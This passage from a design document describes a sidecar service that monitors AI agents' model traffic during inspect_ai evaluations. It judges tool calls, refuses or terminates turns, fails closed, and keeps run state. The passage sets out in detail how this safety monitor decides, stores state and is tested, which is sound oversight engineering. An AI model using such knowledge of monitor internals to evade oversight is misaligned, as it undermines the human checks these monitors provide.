- how `RemoteSentinel` learns of a question put to a person, and how the person's answer reaches the sidecar (section 8)
- how the eval says that a run is new or resumed
- how a credential is tied to its runs

Considered and not taken:

- **A separate REST-style route for each method.** JSON-RPC was chosen instead for two reasons. inspect_ai already uses it for its sandbox tools and has the client code. And a proxy that forwards the endpoint for evals then has only one path to forward.

## 10. Operations

- **Failing closed is the default.** A turn that could not be judged is refused. A turn cannot be judged when it is unreadable, when a monitor raises an error, or when the sidecar is down or too slow. Failing closed makes the sidecar a hard dependency of every model request, which is what a safety monitor is meant to be. A deployment can choose to let such turns through instead.
- **Throughput comes from more sidecar processes, and not from a faster one.** A Python process uses one core. The nearest measurement is from the earlier Envoy processor, where a Python process was handed steps over gRPC and did nothing but run sentinels. That process managed about 2,200 steps a second with a sentinel that does nothing, and about 1,100 with a sentinel that reads every message (**measured**, Linux, two cores). Those figures are a best case for one part of the work, because in this sidecar the Python process also reads the traffic. No figures are quoted for this sidecar until the whole path has been measured on Linux.
- **For a sentinel that asks a model, the sidecar's own speed decides little.** The model's answer takes hundreds of milliseconds, and the provider's rate limits are reached long before the sidecar's.
- **The sidecar's state is kept in memory today, in one process.** It is kept at four levels:

  | Level | Keyed by | What is kept |
  |---|---|---|
  | Task | `eval_id` and `task` | the registered facts: the task's description, the map of tool names, and each sample's input, description and metadata; and whether an admin marked the task fixed (section 9) |
  | Run, one sample in one epoch | `sample_uuid` | the sample's facts, taken at the run's first request; the sentinel's store; the kept conversation; whether the run was ended; open questions to a person (sections 4 and 8) |
  | Conversation, within a run | the run, and how the conversation opens | the calls that were rejected, taken out or changed, to be put back into later requests (section 4) |
  | Request | Inspect's `x-irid`, and the proxy's exchange id | where judging stands, the outcome and the records, for `request_result` (section 9) |

  A sidecar that runs as several processes needs those processes to share this state, because a run's requests, and the calls to the endpoint for evals, may each reach a different process. A run that outlasts a restart needs it kept. The plan is to put the state behind one interface, with the in-memory version as the default. Possible later implementations are one on Valkey and one on S3. The interface is not designed or built. A run's state is dropped when the eval calls `end_run`, or once no request has named the run for a day, which `--run-expiry` sets (section 9). Records are kept for a limited window. A task's registration made by Inspect is dropped a day after the last request that names the task, or later if the registration asked for longer; a task an admin registered is kept (section 9). Not designed: the tallies kept at the task level, shared by every sample of a task (section 7).
- **A record log that can't be rewritten**, not yet designed. Records are to leave the sidecar as they are made, to somewhere neither the sidecar nor a client can change them afterwards. What the sidecar keeps is then a copy for the result methods of section 9, and not the record itself.
- **A health check is answered at `GET /health`, on each port the sidecar listens on.** The answer is `ok` with status 200. The route asks for no credential, on the endpoint for evals as well, and it checks nothing. The sidecar loads its sentinel before it listens, so an answer means the sidecar is ready to judge, and a sidecar whose sentinel can't be loaded stops without ever listening. The route is for whatever runs the sidecar to probe, so that a sidecar that has stopped answering is restarted. A proxy does not call it, and it is not part of the messages a proxy and the sidecar exchange. Health checks are left out of the sidecar's access log, which would otherwise gain a line for every probe.
- **Access is the operator's to control.** The port a proxy sends requests and replies to is protected by where the sidecar listens: an operator makes it reachable by the proxy alone, and uses `https` unless the two run side by side. By default, the endpoint for evals is reached only through the proxy, which checks the caller's credential. As an advanced option, it has a port and a token of its own (section 9). Other forms of authentication, such as a credential on what a proxy sends, may be supported later.
- **What `MiddlemanHook` adds to a model call** is two round trips to the sidecar: one for the request and one for the reply. The time they add has not been measured.

## 11. Testing

- **A replay corpus.** The tests read replies recorded from the live Anthropic and OpenAI APIs, both streamed and not streamed. The cases that must be unreadable are kept beside them.
- **The handler is tested without a proxy.** The endpoint for proxies is tested through its methods and held to its schema file. `LiteLLMGuardrail` is tested against the same file, against a running sidecar, and with LiteLLM's own classes for a reply.
- **LiteLLM, live.** A real LiteLLM proxy runs with `LiteLLMGuardrail`, a running sidecar and a stand-in provider that answers from the replay corpus. Each of the three routes is called streamed and not streamed, with a model from each provider, once with the reply allowed and once with it refused. All twelve cases pass with LiteLLM 1.105. A refusal with a status that a client retries was run the same way: the retried request reached the provider with the model told of the rejection, on every route. A real provider has been called through each of the three routes by the example stack, each time with the provider whose format the route has.
- **A conformance suite**, not yet written. It would check that the same monitors and the same steps give the same decisions and records in inspect_ai's host and in the sidecar.
- **The whole chain, live, through Middleman.** An unmodified Inspect task ran through Middleman with the sidecar deciding, on Anthropic and on OpenAI's Chat Completions and Responses APIs. That run used `MiddlemanHook` and an earlier form of the endpoint for proxies. The `stations` task ran the same way: an eval registered each sample and fetched each run's result through the endpoint for evals, its sentinel decided by the sample's metadata, and a scorer read the sentinel's tally.
- **An example stack.** `examples/always_sunny` holds those two tasks, and a compose file that starts LiteLLM and the sidecar, so the whole chain runs with one command. Both tasks pass through that stack on Anthropic and on OpenAI's Responses and Chat Completions APIs, with the rejected report refused, retried and filed again as the sentinel asked (**measured**, LiteLLM 1.105).
- **Middleman's passthrough hook has tests of its own**, in Middleman's test suite.

## Built and not built

| | Built | Not built |
|---|---|---|
| Proxies | LiteLLM, through `LiteLLMGuardrail`; the endpoint for proxies, with an example stack for LiteLLM | `MiddlemanHook` on the endpoint's methods, and in this repository; the Envoy shim |
| Providers | Anthropic Messages; OpenAI Chat Completions and Responses | Gemini |
| Stages | `BeforeToolCall` and `AfterToolCall`, found in the traffic | `BeforeGenerate`, `AfterGenerate` |
| Decisions | `proceed`; `reject`, by refusing the whole turn; `terminate`, with the run's later requests refused | `reject` of one call, by taking it out of the reply; `modify`; asking a person and holding the turn for the answer |
| Runs | keyed by the name the proxy passes on, or by how the conversation opens | tally levels; a check on a naked agent's name for its run |
| Context | `eval` where an eval registered the sample by itself; `proxy`; the store; `generate`; `output` left empty | `context.proxy.inspect`; the history the sidecar keeps; tool views; registering tasks beforehand; a monitor's model calls through the gateway |
| Endpoint for evals | `request_result`, `run_result`, with one token for all callers; an example Inspect hook that calls them | the probe; `register_task`; `end_run`; dropping a run after `--run-expiry`; a credential for each eval; inspect_ai calling it |
| Inspect's side | | `RemoteSentinel`: the probe, registering a task, `x-inspect-context`, reading the `sentinel` field, the `required` or `optional` setting for a failed registration; proxy hooks passing on `x-inspect-context` and `x-irid` and removing them before the provider |
| Delivery | a whole turn held, then passed or refused | keepalives while holding; releasing text early; delivering a decision that takes hours |
| Operations | in-memory state, in one process; a size limit on what is read from a proxy; an optional time limit on a sentinel | an interface for a run's state, with implementations that share it and keep it (possibly Valkey and S3); a lasting record log, streamed out as it is written; the queue of cases for a person to review; limits on a hold for a proxy that does not hold the reply itself |

One difference from section 2: OpenAI replies are validated strictly today. A value that the installed SDK does not know makes the turn unreadable, where the rule in section 2 says the turn should be read.

## Asked of inspect_ai

- **A public function for each provider that turns stream events into a `ModelOutput`.** Each inspect_ai provider has this logic inside it, with its repairs for SDK defects. Making it callable on a stream that is not the provider's own would put the private Anthropic accumulator behind inspect_ai's API, and would cover Gemini.
- **Converters that parse a dict as leniently as the SDK does.**
- **A converter that says so when it meets a block it does not recognise, or a Beta type.** Today the Anthropic converter returns less than it was given, with no error.
- **A public function that writes a message in Anthropic's format**, as there is for OpenAI's format.
- **The JSON request context on each provider call.** Inspect sends `x-inspect-context` with the fields listed in section 7: the version, the eval id, the task, the sample id, the epoch, the sample's uuid and the attempt. It sends the sample input and private metadata through registration.
- **`RemoteSentinel`**, as section 9 describes: the probe at task init, registering the task where that is allowed, and the setting for a failed registration, `required` or `optional`.
- **Reading the `sentinel` field** on a reply, an error or the last event of a stream, and acting on it as in process: a call taken out goes back into Inspect's copy with an approval error, a changed call keeps the model's original, a `terminate` ends the sample, and every step is written into the transcript.
- **A person's answer to a sentinel in a sidecar.** Inspect's approval UI shows a question that the sidecar holds, and the answer goes to the sidecar on the person's own credential.
- **A public way to obtain the running sample's uuid and attempt id before its first model call**, and before scoring. Inspect already keeps the uuid the same across retries of a sample, and the attempt id changes.
- **The model request's `x-irid`, available to `RemoteSentinel`**, so that it can ask the sidecar about a request whose response did not carry the `sentinel` field.
- **Asking the sidecar for records and state**, writing them into the transcript and the sample's store, and ending the run once the sample is scored.
- **A public way to make the default rendering of a tool call.**
- **A label on a grader's model calls**, so that a proxy can tell them from an agent's calls.

## Proposed for the core package

- **`Context.proxy`**, built on this branch. It holds the provider, the model, the user and the headers the proxy passed on. It is None in an eval's own process. The field is optional, so a host that does not set it is unaffected. It is kept apart from `context.eval`, which comes only from registration. Proposed: a field `inspect` on it, holding what `x-inspect-context` says (the eval id, the task, the sample id, the epoch, the sample's uuid and the attempt), or None when a request has no such header. A sentinel reads it when `context.eval` is None because the sample was not registered.

## Deferred

- **Running the sentinel as WebAssembly inside the sidecar.** The WASM sidecar spike (`spikes/wasm_sidecar/`, 2026-10-06) ran the unchanged sentinel runner as a WebAssembly component inside a sidecar process. That adds isolation between a monitor and the sidecar, credentials the monitor never holds, and hard limits on its time and memory. It is described in [proxy-host.md](proxy-host.md), section 4. This design is the sidecar that such a component would run inside. Today the sidecar is plain Python and its handler calls the sentinel directly, and nothing here is built for WebAssembly.
